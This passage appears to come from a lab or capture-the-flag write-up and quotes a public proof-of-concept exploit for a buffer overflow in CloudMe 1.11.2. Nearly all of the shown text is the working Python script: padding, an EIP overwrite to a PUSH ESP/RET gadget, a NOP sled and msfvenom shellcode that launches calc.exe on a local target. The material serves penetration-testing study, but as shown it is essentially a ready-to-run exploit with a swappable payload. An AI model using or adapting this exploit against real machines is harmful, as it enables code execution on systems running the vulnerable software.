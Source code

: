 
### Update Exploit

#### Exploit Analysis

It looks like the exploit is a very simple buffer overflow:

    
    
    # Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
    # Date: 2020-04-27
    # Exploit Author: Andy Bowden
    # Vendor Homepage: https://www.cloudme.com/en
    # Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
    # Version: CloudMe 1.11.2
    # Tested on: Windows 10 x86
    
    #Instructions:
    # Start the CloudMe service and run the script.
    
    import socket
    
    target = "127.0.0.1"
    
    padding1   = b"\x90" * 1052
    EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
    NOPS       = b"\x90" * 30
    
    #msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
    payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
    payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
    payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
    payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
    payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
    payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
    payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
    payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
    payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
    payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
    payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
    payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
    payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
    payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
    payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
    payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
    payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"
    